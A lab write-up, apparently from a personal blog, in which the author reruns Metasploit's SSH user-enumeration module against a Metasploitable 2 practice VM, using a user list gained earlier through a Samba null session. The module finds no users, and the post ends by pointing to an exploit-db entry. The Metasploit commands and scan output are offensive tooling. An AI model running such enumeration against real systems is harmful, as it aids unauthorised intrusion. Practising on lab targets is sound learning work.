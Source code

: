 <!--hacking, metasploit, ssh-->
# SSH follow up

Since I did my last post I have been meaning to write a follow up on the failed attempt at using: `auxiliary/scanner/ssh/ssh_enumusers`.
I wanted to figure out what went wrong and if the vulnerability was even applicable. Since I have a list of all the users now I can try 
the enumeration again with the known users as the user name list.

## Another go

I managed to get a list of all the users during [this](https://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-one/)
exercise by exploiting a null session vulnerability in Samba. I saved it to the file `users.lst` so let's launch the exploit 
with that file.

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set USER_FILE users.lst 
    USER_FILE => users.lst
    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    [!] 192.168.56.103:22 - SSH - User 'nobody' not found
    [!] 192.168.56.103:22 - SSH - User 'bind' not found
    [!] 192.168.56.103:22 - SSH - User 'proxy' not found
    [!] 192.168.56.103:22 - SSH - User 'syslog' not found
    [!] 192.168.56.103:22 - SSH - User 'user' not found
    [!] 192.168.56.103:22 - SSH - User 'www-data' not found
    [!] 192.168.56.103:22 - SSH - User 'root' not found
    [!] 192.168.56.103:22 - SSH - User 'news' not found
    [!] 192.168.56.103:22 - SSH - User 'postgres' not found
    [!] 192.168.56.103:22 - SSH - User 'bin' not found
    [!] 192.168.56.103:22 - SSH - User 'mail' not found
    [!] 192.168.56.103:22 - SSH - User 'distccd' not found
    [!] 192.168.56.103:22 - SSH - User 'proftpd' not found
    [!] 192.168.56.103:22 - SSH - User 'dhcp' not found
    [!] 192.168.56.103:22 - SSH - User 'daemon' not found
    [!] 192.168.56.103:22 - SSH - User 'sshd' not found
    [!] 192.168.56.103:22 - SSH - User 'man' not found
    [!] 192.168.56.103:22 - SSH - User 'lp' not found
    [!] 192.168.56.103:22 - SSH - User 'mysql' not found
    [!] 192.168.56.103:22 - SSH - User 'gnats' not found
    [!] 192.168.56.103:22 - SSH - User 'libuuid' not found
    [!] 192.168.56.103:22 - SSH - User 'backup' not found
    [!] 192.168.56.103:22 - SSH - User 'msfadmin' not found
    [!] 192.168.56.103:22 - SSH - User 'telnetd' not found
    [!] 192.168.56.103:22 - SSH - User 'sys' not found
    [!] 192.168.56.103:22 - SSH - User 'klog' not found
    [!] 192.168.56.103:22 - SSH - User 'postfix' not found
    [!] 192.168.56.103:22 - SSH - User 'service' not found
    [!] 192.168.56.103:22 - SSH - User 'list' not found
    [!] 192.168.56.103:22 - SSH - User 'irc' not found
    [!] 192.168.56.103:22 - SSH - User 'ftp' not found
    [!] 192.168.56.103:22 - SSH - User 'tomcat55' not found
    [!] 192.168.56.103:22 - SSH - User 'sync' not found
    [!] 192.168.56.103:22 - SSH - User 'uucp' not found
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
Not a single user found, but we know that all users exist! That means that this version of SSH is not actually vulnerable to 
this attack. I have done some searching about this version online and it seems like it suffers from another vulnerability namely 
[this](http://www.exploit-db.com/exploits/5720/) one on http://www.exploit-db.com/. Who knows I might come around doing 
that if I get bored enough...


